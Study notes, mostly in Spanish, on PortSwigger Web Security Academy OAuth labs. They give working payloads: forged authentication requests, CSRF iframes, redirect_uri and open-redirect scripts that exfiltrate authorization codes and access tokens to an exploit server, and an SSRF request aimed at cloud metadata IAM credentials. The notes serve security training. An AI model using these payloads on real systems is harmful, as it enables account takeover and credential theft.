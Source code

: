 
Mientras navegas por la web, es casi seguro que te has encontrado con sitios que te permiten iniciar sesión con tu cuenta de redes sociales. Lo más probable es que esta función esté diseñada con el popular marco OAuth 2.0. OAuth 2.0 es muy interesante para los atacantes porque es extremadamente común y, por naturaleza, propenso a errores de implementación. Esto puede generar una serie de vulnerabilidades, lo que permite a los atacantes obtener datos confidenciales de los usuarios y, potencialmente, eludir la autenticación por completo.

“Flujo de Oauth” → Authorization e Implicit que son los más comunes.

<hr>

### LAB: Authentication bypass via OAuth implicit flow

* Este ataque permite iniciar sesión en las cuentas de otros usuarios sin conocer la contraseña. 

```js
POST /authenticate HTTP/2

{
	"email":"wiener@normal-user.net",
	"username:"wiener",
	"token":"value-token"
}
//Cambiamos credenciales email,username por el de user victim `carlos`

{
	"email":"carlos@carlos-montoya.net",
	"username:"carlos",
	"token":"value-token"
}
//OBTENEMOS EN LA RESPONSE EL TOKEN, nos logueamos como carlos sin su pass.
```

### LAB: Auth0 Profile linking 

* Este ataque permite adjuntar un perfil de redes sociales asociado a otro usuario (con permisos administrativos por ejm), con ayuda de `CSRF`
* No está presente en el Flujo Auth0 el param `state`que lo hace vuln a CSRF.

```js
No CSRF token protection:
1. Oauth linking?code= option, automatically logs you in, capture social logging linking, copy URL and drop important drop. 
Send to Victim in exploit-server
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>
Now if you log out and log in using social media profile you are instantly logged as administrator
```

### LAB: Auth0 Hijacking Via redirect_uri

* Este ataque permite llevar a cabo el robo de códigos de Autorización asociado a otro usuario (Administrator) por ejm, mediante el param redirect_uri. 
* Debemos interceptar la petición de logueo: 
	* `GET /auth?client_id=epynpc3qu0o16azsibj2b&redirect_uri=https://LAB-ID.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email`
	* Y la `redirect_uri` es la que reemplazamos por el server-exploit, para que nos redirija al user wiener y poder tener acceso al panel de administrator.
	* Con `<iframe>` o con un CSRF PoC. 

```html
<iframe src="https://oauth-0a81005c03e151ba82fcebc1024600a0.oauth-server.net/auth?client_id=epynpc3qu0o16azsibj2b&redirect_uri=https://ID-EXPLOIT.net/oauth-callback&response_type=code&scope=openid%20profile%20email"></iframe>
```

* En los `logs` del server exploit podemos ver reflejado el Token. 

![[Pasted image 20250218143314.png]]

### LAB: Auth0 Access Token Via Open Redirect - Hijack

* Este ataque permite que un atacante filtre tokens de acceso a páginas arbitrarias desde la aplicación cliente/legitima. 
* Con un open redirect se lleva a cabo el ataque, se toma el token de acceso y se da paso para poder acceder a la API Key del user administrator. 
* Find Open redirect `/post/next?path=exploit-server`
* `/me` es la que tiene el valor de la `apiKey`

```js
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>

```

* window.location = '/?'+document.location.hash.substr(1) es 1 porque accederemos solo al primer param que es `access_token`, luego nos llega el acces token a los logs y listo accedemos. 
* GET /me HTTP/2 - con la cookie `Authorization: Bearer ACCESS_TOKEN_HERE` nos retorna la ApiKey, y listo nea. 

### LAB: Auth0 Access Token Via Proxy Page

* Este ataque permite robar un token de acceso con una 2da vulnerabilidad en conjuncion con un proxy para exfiltrar el access token. -> ApiKey Administrator

```js
<iframe src="https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

* GET /me HTTP/2 - con la cookie `Authorization: Bearer ACCESS_TOKEN_HERE` nos retorna la ApiKey, y listo nea. 

### LAB: Auth0 `SSRF` via OpenID dynamic client registration

* Este ataque permite generar un vector SSRF con unos datos inseguros del cliente/user, el ataque se basa en poder acceder a: 
	* `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/`y robar la clave de acceso secreta.

	## Pasos para reproducir:

	```json
	GET /.well-known/openid-configuration HTTP/2
	Host: oauth-ID.oauth-server.net
	```

	```json
	POST /reg HTTP/2
	Host: oauth-ID.oauth-server.net
	Content-Type: application/json
	Content-Length: 141
	
	{
	    "redirect_uris" : [
	        "<https://example.com>"
	    ],
	    "logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
	}
	```

	```json
	GET /client/CLIENT_ID_DE_LA_RESPONSE/logo HTTP/2
	Host: oauth-ID.oauth-server.net
	Content-Type: application/json
	Content-Length: 0
	```

<hr>

### Apuntes @krakenEu

##### Capture OAuth link

And send it in an iframe to make the victim perform the ouathflow. Then login with social media, it will load the victim user. `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>`

##### Open registration

Notice registration of a user being made and logo_uri being used

```
POST /reg HTTP/1.1 
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net 
Content-Type: application/json 

{ "redirect_uris" : [ "https://example.com" ], "logo_uri" : "https://BURP-COLLABORATOR-SUBDOMAIN" }
```

##### hijacking via redirect_uri

Change the `redirect_uri` to point to the exploit server, then send the request and follow the redirect. Go to the exploit server's access log and observe that there is a log entry containing an authorization code. This confirms that you can leak authorization codes to an external domain.

Load in the exploit server the payload and send to leak the code generated with CSRF POC of burp

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://oauth-0afd008a04bf7575834367e902220069.oauth-server.net/auth">
      <input type="hidden" name="client&#95;id" value="apbrisws6akg4x5jd0640" />
      <input type="hidden" name="redirect&#95;uri" value="https://exploit-0a6b00a4043175da8300687b01c80094.exploit-server.net/" />
      <input type="hidden" name="response&#95;type" value="code" />
      <input type="hidden" name="scope" value="openid&#32;profile&#32;email" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

No login with the code in: GET /oauth-callback?code=nwCa06DxlsV3J34Y-BHm--GuKM_2pW3jHL-HLa8ioGs Copy URL in original session and delete carlos

##### Stealing OAuth tokens via open redirection:

Poc to perform an open redirect found, we are using a path traversal found in oauth along side with the open redirection of post/next site, then appending if found the access token to the request.

```js
<script>
if (!document.location.hash){
window.location="https://oauth-0ad300af0450eb0781bbfff3022500b2.oauth-server.net/auth?client_id=ag2rq0tbm8hchcusqw9gk&redirect_uri=https://0ace00ad0408eb1c82e501ce00c50007.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ad900fd04efeb54826e007301e800f9.exploit-server.net/exploit&response_type=token&nonce=1870905122&scope=openid%20profile%20email"
} else {
window.location = '/?'+document.location.hash.substr(1)
}
</script>
```

Take the token and use it to access /me and display the admin info